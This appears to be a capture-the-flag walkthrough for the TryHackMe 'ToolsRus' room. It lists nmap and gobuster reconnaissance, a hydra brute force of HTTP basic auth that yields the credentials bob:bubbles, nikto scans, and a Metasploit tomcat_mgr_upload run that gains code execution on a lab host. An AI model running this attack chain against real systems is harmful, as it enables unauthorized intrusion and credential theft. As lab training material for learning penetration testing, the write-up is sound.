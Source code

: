 # ToolsRus

**Room Link:** [https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l bob -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt $VICTIM http-get /protected
```

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:80/manager/html
```

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:1234/manager/html 
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfconsole 
```

**Msfconsole**

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.98.194
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
run
```

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

































